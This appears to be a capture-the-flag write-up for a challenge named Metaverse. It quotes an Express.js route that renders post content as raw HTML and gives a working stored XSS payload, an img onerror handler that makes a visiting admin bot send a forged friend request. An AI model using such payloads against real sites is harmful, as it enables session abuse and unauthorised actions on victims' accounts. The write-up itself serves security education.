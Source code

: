 # Metaverse

Just metahack it bro

![metasubmit](https://imgur.com/VCuMKv1.png)

## MetaReconnaisance

The metasite is a single file expressjs metaserver `index.js`. There is a very suspicious metacomment for the `/post` metaendpoint shown below

```js
// templating engines are for losers!
const postTemplate = fs.readFileSync(path.join(__dirname, "post.html"), "utf8");
app.get("/post/:id", (req, res) => {
    if (posts.has(req.params.id)) {
        res.type("text/html").send(postTemplate.replace("$CONTENT", () => posts.get(req.params.id)));
    } else {
        res.status(400).type("text/html").send(postTemplate.replace("$CONTENT", "post not found :("));
    }
});
```

This is clearly very metainsecure because the metacontent of the metapost is sent as raw metahtml to the metavisitor.

The metaflag is set to the meta-admin's display name. In order to metasee the metaname, the meta-admin must metafriend us and we will be able to see the metaname in our metahome page.


## MetaExploitation

To metaexploit this metavulnerability, we make a metapost with following content

```html
<img src="/dskl" onerror="fetch('/friend', { method: 'POST', body: 'username=uwuowo', headers: { 'Content-Type': 'application/x-www-form-urlencoded', }, })" />
```

This will run the `POST /friend` to metafriend my metauser `uwuwowo` from the visitor's meta-account. I then sent the metalink to my metapost to the meta-adminbot to visit. After they visited my metapost, I became their meta-friend and captured the flag.

![metaflag](https://i.imgur.com/T2715kw.png)